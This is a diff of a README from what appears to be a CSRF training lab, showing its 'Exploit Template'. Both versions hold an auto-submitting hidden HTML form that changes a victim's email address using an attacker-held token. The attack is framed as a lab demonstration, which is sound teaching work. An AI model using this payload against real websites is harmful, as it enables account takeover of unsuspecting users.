

Before and after one commit to the0x-pwn/lab-CSRF, a Markdown page: README.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -197,24 +197,27 @@ Change the **victim's email address** by forging a request that includes:
 #### 🧪 Exploit Template
 
 ```html
+<!--
+    CSRF Lab Demonstration
+    Create a legitimate email change request and intercept it.
+    Convert the request into a CSRF proof-of-concept using the lab tooling.
+    The CSRF token used in this request must be fresh and unused.
+    Since tokens are single-use, a previously consumed token will fail validation.
+-->
 <!DOCTYPE html>
 <html lang="en">
 <head>
-  <meta charset="UTF-8">
-  <title>CSRF PoC — Lab 4</title>
+    <meta charset="UTF-8">
+    <title>CSRF Exploit PoC</title>
 </head>
 <body>
-  <form id="csrfForm"
-        action="http://TARGET/change-email"
-        method="POST"
-        style="display:none;">
-    <input type="hidden" name="email" value="attacker@evil.com">
-    <!-- Token stolen from attacker's own valid session -->
-    <input type="hidden" name="csrf_token" value="VALID_TOKEN_FROM_ATTACKER_SESSION">
-  </form>
-  <script>
-    document.getElementById('csrfForm').submit();
-  </script>
+    <form id="csrfForm" action="http://localhost/update-email" method="POST">
+        <input type="hidden" name="csrf" value="TOKEN_ATTACKER">
+        <input type="hidden" name="email" value="attacker@lab.com" />
+    </form>
+    <script>
+        document.getElementById('csrfForm').submit();
+    </script>
 </body>
 </html>
 ```
````
